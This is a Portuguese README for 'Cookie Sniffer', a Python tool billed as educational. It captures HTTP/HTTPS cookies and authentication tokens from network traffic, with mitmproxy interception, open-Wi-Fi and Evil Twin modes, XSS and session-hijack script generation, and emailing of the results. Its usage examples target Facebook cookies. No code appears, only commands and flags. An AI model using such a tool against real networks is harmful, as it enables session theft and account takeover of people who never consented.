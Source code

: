 # Cookie Sniffer

`Cookie Sniffer` é uma ferramenta educacional em Python para capturar e manipular cookies HTTP/HTTPS e tokens de autenticação em um ambiente de teste ético. Projetada para aprendizado em cibersegurança, a ferramenta analisa pacotes de rede, extrai cookies e tokens, e suporta funcionalidades como injeção via XSS, exportação para extensões de navegador, e simulação de ataques como Evil Twin. Inclui CLI e GUI, sendo ideal para estudantes e profissionais.

⚠️ **Aviso Legal**: Use **apenas em redes próprias** ou com autorização explícita. Capturar cookies sem permissão viola leis como GDPR e CCPA. Cookies não podem ser embutidos diretamente em URLs.

## Funcionalidades
1. Captura cookies de requisições HTTP (`Cookie` e `Set-Cookie`).
2. Suporte a HTTPS via mitmproxy (`--mitm`).
3. Detecção automática de tráfego HTTP/HTTPS com avisos.
4. Filtro para portas 80/443 (`--auto-ports`).
5. Captura passiva de cookies automáticos do navegador.
6. Validação de certificados MITM.
7. Exportação para mitmproxy (`--mitm-dump`).
8. Filtro por domínio, IP, e cabeçalhos HTTP.
9. Modo otimizado para Wi-Fi aberto (`--open-wifi`).
10. Aviso legal interativo antes da captura.
11. Suporte a múltiplos filtros BPF (`--filters`).
12. Exportação para JSONL, SQLite, CSV, Netscape, EditThisCookie, Cookie-Editor, Postman, Burp Suite.
13. Geração de script XSS (`--xss-script`) e bookmarklet (`--bookmarklet`).
14. Análise de cookies (Secure, HttpOnly, SameSite).
15. Auditoria de segurança de cookies (`--audit`).
16. Captura e teste de tokens na URL (`--token-capture`, `--test-tokens`).
17. Simulação de Evil Twin (`--evil-twin`) e sessão no navegador (`--browser-session`).
18. Detecção de vulnerabilidades XSS (`--xss-detect`).
19. Suporte a WebSockets (`--websocket`) e IPv6.
20. Relatórios estatísticos e gráficos (`cookies_graph.png`).

## Flags de Linha de Comando
- `--interfaces <nomes>`: Interfaces de rede (ex.: `eth0,wlan0`).
- `--filters <filtros>`: Filtros BPF (ex.: `tcp port 80,tcp port 443`).
- `--domain-filter <domínio>`: Filtrar por domínio.
- `--ip-filter <ip>`: Filtrar por IP.
- `--header-filter <regex>`: Filtrar por cabeçalho HTTP.
- `--output-dir <diretório>`: Diretório de saída.
- `--gui`: Inicia a interface gráfica.
- `--max-packets <n>`: Número máximo de pacotes.
- `--timeout <segundos>`: Tempo máximo de captura.
- `--silent`: Modo silencioso.
- `--continuous`: Captura contínua até Ctrl+C.
- `--http-method <método>`: Filtrar por método HTTP.
- `--cookie-type <tipo>`: Filtrar por tipo de cookie (session/persistent).
- `--email <endereço>`: Enviar resultados por e-mail.
- `--whatsapp <número>`: Enviar resultados via WhatsApp.
- `--proxy-file <arquivo>`: Arquivo com proxies.
- `--mitm`: Usar mitmproxy para HTTPS.
- `--mitm-dump <arquivo>`: Salvar tráfego mitmproxy.
- `--pcap`: Salvar em .pcap.
- `--wireshark-live`: Exibir em Wireshark ao vivo.
- `--auto-ports`: Filtrar portas 80 e 443.
- `--open-wifi`: Modo Wi-Fi aberto.
- `--test-cookies`: Testar cookies capturados.
- `--test-tokens`: Testar tokens capturados.
- `--xss-script`: Gerar script XSS.
- `--edit-this-cookie`: Exportar para EditThisCookie.
- `--cookie-editor`: Exportar para Cookie-Editor.
- `--token-capture`: Capturar tokens na URL.
- `--xss-detect`: Detectar XSS.
- `--domain-validate`: Validar domínio dos cookies.
- `--bookmarklet`: Gerar bookmarklet.
- `--browser-session`: Gerar script para sessão no navegador.
- `--postman`: Exportar para Postman.
- `--audit`: Auditar segurança dos cookies.
- `--websocket`: Capturar cookies em WebSockets.
- `--burp`: Exportar para Burp Suite.
- `--evil-twin`: Simular Evil Twin.
- `--dry-run`: Simular captura.
- `--tutorial`: Mostrar tutorial interativo.

## Pré-requisitos
- Python 3.6+
- Dependências: `pip install scapy matplotlib requests mitmproxy`
- Sistema operacional: Linux (ex.: Kali Linux); Windows com ajustes.
- Permissões: Modo root para captura (use `sudo`).
- mitmproxy (opcional para HTTPS): `pip install mitmproxy`.
- Wireshark (opcional para `--wireshark-live`).
- Arquivo de configuração: `config.json`.

## Instalação
1. Clone o repositório:
   ```bash
   git clone https://github.com/SEU_USUARIO/cookie-sniffer.git
   cd cookie-sniffer
   ```
2. Instale as dependências:
   ```bash
   pip install -r requirements.txt
   ```
3. (Opcional) Configure mitmproxy para HTTPS:
   ```bash
   mitmproxy --set upstream_cert=false
   ```
4. (Opcional) Crie um arquivo `config.json`:
   ```json
   {
       "interfaces": ["eth0"],
       "filters": ["tcp port 80", "tcp port 443"],
       "proxies": [],
       "smtp": {"server": "smtp.gmail.com", "port": 587, "user": "", "password": ""},
       "whatsapp": {"api_url": "", "api_key": ""}
   }
   ```

## Uso
- **Modo CLI**:
   ```bash
   sudo python3 cookie_sniffer.py --interfaces wlan0 --filters "tcp port 80 or tcp port 443" --output-dir ./output --domain-filter "*.facebook.com" --xss-script
   ```
- **Modo GUI**:
   ```bash
   sudo python3 cookie_sniffer.py --gui
   ```
- **Modo Wi-Fi Aberto com Tokens**:
   ```bash
   sudo python3 cookie_sniffer.py --open-wifi --token-capture --output-dir ./output
   ```

## Saídas
- Resultados: `output_dir/cookies.json`, `cookies.jsonl`, `cookies.csv`, `cookies.txt`, `edit_this_cookie.json`, `cookie_editor.json`, `postman_collection.json`, `burp_cookies.txt`, `xss_inject.js`, `bookmarklet.js`, `browser_session.js`, `cookies.db`, `cookie_test.json`, `token_test.json`
- Relatórios: `output_dir/report.json`, `audit_report.json`, `cookies_graph.png`
- Pacotes: `output_dir/capture.pcap` (se `--pcap`)
- Logs: `output_dir/cookie_sniffer.log`

## Exemplo
```bash
sudo python3 cookie_sniffer.py --interfaces eth0 --max-packets 100 --output-dir ./output --email seuemail@gmail.com --xss-script --edit-this-cookie
```
- Captura 100 pacotes, salva resultados, gera script XSS, exporta para EditThisCookie, e envia por e-mail.

## Aviso Ético
- **Uso Autorizado**: Use apenas em redes próprias ou com permissão explícita.
- **Privacidade**: Cookies podem conter dados pessoais. Respeite leis como GDPR e CCPA.
- **Responsabilidade**: O autor não se responsabiliza por uso indevido.

## Contribuições
Contribuições são bem-vindas! Envie pull requests ou abra issues.

## Licença
MIT License. Veja o arquivo `LICENSE`.